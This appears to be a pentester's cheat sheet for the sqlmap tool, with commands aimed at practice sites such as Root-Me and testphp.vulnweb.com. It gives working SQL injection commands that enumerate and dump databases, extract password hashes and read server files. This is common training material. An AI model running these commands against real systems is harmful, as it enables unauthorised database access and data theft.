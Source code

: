 # SQLMap

Enumerate and extract data from SQL databases

Download SQLMap [here](http://sqlmap.org/) or clone it on [GitHub](https://github.com/sqlmapproject/sqlmap)


## GET request

SQL-injection in URL's (GET requests):
```bash
sqlmap -u "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC"
```

## POST request
SQL-injection in POST params (eg. login-forms)
```bash
sqlmap --method=POST -u "http://challenge01.root-me.org/web-serveur/ch9/" --data="login=admin&password=poo"
```

Tutorials:
* [Basic](https://www.youtube.com/watch?v=yPMbb38pwVI)
* [Introduction to SQLMap](https://www.gracefulsecurity.com/introduction-to-sqlmap/)





https://www.hackingarticles.in/file-system-access-on-webserver-using-sqlmap/
https://www.hackingarticles.in/comprehensive-guide-to-sqlmap-target-options15249-2/
https://www.hackingarticles.in/command-injection-exploitation-through-sqlmap-in-dvwa/
sqlmap 
-------

scan multiple target
sqlmap -m /root/Desktop/s.txt --dbs --batch

Databases
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --dbs --batch

Tables
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart --table --batch

Columns
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users --columns --batch

Get data from a table
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users --dump --batch

Dump All
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart --dump-all --batch



SQLMap

    sqlmap -u http://xxx.com --forms --batch --crawl=10 --cookie=jsessionid=54321 --level=5 --risk=3       //  Automated sqlmap scan
    sqlmap -u http://INSERTIPADDRESS --dbms=mysql --crawl=3
    sqlmap -u TARGET -p PARAM --data=POSTDATA --cookie=COOKIE --level=3 --current-user --current-db --passwords --file-read="/var/www/xxx.php" // Targeted sqlmap scan
    sqlmap -u "http://xxx.com/xxx.php?id=1" --dbms=mysql --tech=U --random-agent --dump //  Scan url for union + error based injection with mysql backend and use a random user agent + database dump
    sqlmap -o -u "http://xxx.com/form/" –forms // sqlmap check form for injection
    sqlmap -o -u "http://xxx/vuln-form" --forms -D database-name -T users –dump // sqlmap dump and crack hashes for table users on database-name.
    sqlmap --flush session
        Flushes the session
    sqlmap -p user --technique=B
        Attempts to exploit the “user” field using boolean technique.
